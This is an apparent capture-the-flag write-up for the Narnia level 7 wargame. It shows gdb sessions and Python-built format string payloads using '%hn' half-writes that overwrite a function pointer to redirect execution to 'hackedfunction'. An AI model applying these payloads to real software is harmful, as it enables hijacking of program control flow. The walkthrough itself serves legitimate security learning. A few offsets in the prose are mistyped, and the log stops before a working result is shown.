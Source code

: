 We can overwrite the contents of `0xDDDD` (a placeholder) by picking up the 5th argument off the stack. In a nutshell, we'll want to replace `0xDDDD` with the address of `ptr` (`0xffffd66c`) - and the value should be `0x08048706` - the address of `hackedfunction`.

There are a number of ways to go about doing that but the simplest is, I'm told, is to split the write into two halves using the `$hn` modifier. We'd usually write the lower half first (0x8706)  but because higher one is less (0x0804), we have to do it the other way around (as the second write cannot have 'less bytes' written than the first).

The format string will look like this: `<0xffffd66c+2:higher><0xffffd66c:lower><0x08040-8 bytes for higher address><half write><0x8706-0x0802 bytes for lower address><half write>`

``` shell
(gdb) p 0x0804-8
$2 = 2044
(gdb) p 0x8706-0x0804
$3 = 32514
(gdb) r $(python -c 'print "DDDDEEEE%.x%.x%.x%.x%.x%.x%.x"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia7 $(python -c 'print "DDDDEEEE%.x%.x%.x%.x%.x%.x%.x"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd65c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048680 in vuln ()
(gdb) ni
0x08048685 in vuln ()
(gdb) x/s 0xffffd660
0xffffd660:     "DDDDEEEE8048238ffffd6b8f7ffda9480486e04444444445454545"
```

We now have our byte counts ready, and we know where both addresses will be positioned on the stack - in the 6th and 7th position respectively.

``` shell
(gdb) r $(python -c 'print "\x6e\xd6\xff\xff\x6c\xd6\xff\xff%.2044x%6$hn%.32514x%7$hn"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia7 $(python -c 'print "\x6e\xd6\xff\xff\x6c\xd6\xff\xff%.2044x%6$hn%.32514x%7$hn"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd65c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048680 in vuln ()
(gdb) ni
0x08048685 in vuln ()
(gdb) x/x 0xffffd660
0xffffd660:     0x6e
(gdb) x/x *0xffffd660
0xffffd66e:     0x04
(gdb) r $(python -c 'print "\x5e\xd6\xff\xff\x5c\xd6\xff\xff%.2044x%6$hn%.32514x%7$hn"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia7 $(python -c 'print "\x5e\xd6\xff\xff\x5c\xd6\xff\xff%.2044x%6$hn%.32514x%7$hn"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd65c)
I guess you want to come to the hackedfunction...
```